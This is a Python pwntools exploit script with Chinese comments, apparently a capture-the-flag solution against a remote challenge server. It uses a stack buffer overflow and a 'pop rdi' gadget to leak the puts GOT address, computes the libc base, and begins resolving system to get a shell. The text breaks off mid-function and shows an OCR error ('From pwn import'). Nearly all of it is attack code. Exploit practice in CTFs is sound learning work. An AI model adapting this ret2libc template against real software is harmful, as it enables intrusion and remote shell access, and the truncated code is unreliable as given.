 ```python
From pwn import remote, ELF, p64, u64

def main():
    # 配置目标信息
    target_host = "challenge.xinshi.fun"
    target_port = 36750

    # 加载二进制文件与libc
    elf = ELF("./pwn")
    libc = ELF("/root/附件/libc.so.6")

    # 建立连接
    io = remote(target_host, target_port)
    print(f"已连接到 {target_host}:{target_port}")

    try:
        # 第一阶段：泄露libc地址
        leak_libc(io, elf)

        # 第二阶段：获取shell
        get_shell(io, elf, libc)

    finally:
        # 保持交互
        io.interactive()


def leak_libc(io, elf):
    """泄露libc中的puts函数地址，计算libc基地址"""
    # 关键地址定义
    puts_plt = elf.plt["puts"]
    puts_got = elf.got["puts"]
    main_addr = elf.symbols["main"]
    rdi_gadget = 0x401176  # pop rdi; ret

    # 构造泄露payload
    buffer_size = 120  # 缓冲区溢出长度
    leak_payload = (
        b"M" * buffer_size
        + p64(rdi_gadget)    # 控制rdi寄存器
        + p64(puts_got)      # 传入puts的GOT地址作为参数
        + p64(puts_plt)      # 调用puts函数输出地址
        + p64(main_addr)     # 泄露后返回main函数，准备第二次输入
    )

    # 发送泄露payload
    io.sendlineafter(b"What's your name?\n", leak_payload)

    # 解析泄露的puts地址
    puts_raw = io.recvuntil(b"\x7f")[-6:]  # 提取6字节有效地址
    puts_addr = u64(puts_raw.ljust(8, b"\x00"))  # 补全为8字节并转换为整数

    # 保存全局变量供后续使用
    leak_libc.puts_addr = puts_addr
    print(f"[+] 泄露的puts地址: {hex(puts_addr)}")


def get_shell(io, elf, libc):
    """利用泄露的libc地址计算system和/bin/sh位置，执行getshell"""
    # 计算关键地址
    puts_addr = leak_libc.puts_addr
    libc_base = puts_addr - libc.symbols["puts"]
    system_addr = libc_base + libc.symbols["system"]
```